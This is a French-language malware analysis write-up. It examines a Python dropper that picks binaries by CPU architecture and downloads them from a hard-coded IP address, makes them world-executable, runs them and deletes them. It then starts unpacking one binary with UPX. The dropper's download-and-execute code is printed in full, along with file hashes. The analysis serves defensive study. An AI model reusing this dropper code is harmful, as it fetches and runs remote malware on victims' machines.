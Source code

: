Ce fichier python procède au téléchargement de 2 fichiers différents. Ces fichiers sont séléctionné selon l'architecture processeur de l'ordinateur cible. Dans le cas d'une architecture x86_64 :
 
  |*Fichier*|*Taille*|*MD5*|*Chemin*|
  |-------|-------|-------|----|
  |dbused|2,5M|dc3d2e17df6cef8df41ce8b0eba99291|/tmp/dbused|
  |bashirc.x86_64|185K|9e935bedb7801200b407febdb793951e|/tmp/bashirc.x86_64|

  Et dans le cas d'une architecture i686 :
  |*Fichier*|*Taille*|*MD5*|*Chemin*|
  |-------|-------|-------|-----|
  |dbused|2,6M|101ce170dafe1d352680ce0934bfb37e|/tmp/dbused
  |bashirc.xi686|175K|b2755fc18ae77bc86322409e82a02753|/tmp/bashirc.i686|

  Dans les deux cas, ces fichiers se voient être attribués des droits en lecture, écriture et execution pour tous les utilisateurs, sont éxecutés, d'abord le dbused, puis le bashirc, avant d'être supprimés dans le même ordre.
  ```python
  if platform.architecture()[0] == "64bit":
	urlx64 = "http://209.141.40.190/x86_64"
	bx64 = "http://209.141.40.190/bashirc.x86_64"
	try:
		f = urllib.urlopen(urlx64)
		if f.code == 200:
			data = f.read()
			with open ("/tmp/dbused", "wb") as code:
				code.write(data)
		xx = urllib.urlopen(bx64)
		if xx.code == 200:
			data = xx.read()
			with open ("/tmp/bashirc.x86_64", "wb") as code:
				code.write(data)
		os.chmod("/tmp/dbused", 0o777)
		os.chmod("/tmp/bashirc.x86_64", 0o777)
		os.system("/tmp/dbused -pwn")
		os.system("/tmp/dbused -c " + output)
		os.system("/tmp/bashirc.x86_64")
		os.system("rm -rf /tmp/dbused")
		os.system("rm -rf /tmp/bashirc.x86_64")
	except:
		pass
  ```

## Fichier dbused

Nous commençons par savoir de quel type de fichier est `dbused` :
```
$ file dbused 
dbused: ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), statically linked, no section header
```
Il s'agit donc d'un fichier executable à destination d'ordinateur Linux.
Le recherche de chaînes de caractère en clair nous apprends qu'il est compressé avec l'utilitaire UPX :
```
$ strings dbused -n 20 | grep UPX
$Info: This file is packed with the UPX executable packer http://upx.sf.net $
$Id: UPX 3.95 Copyright (C) 1996-2018 the UPX Team. All Rights Reserved. $
```
Nous le décompressons pour continuer à chercher des chaines de caractères en clair :
```
$ upx -d dbused
```
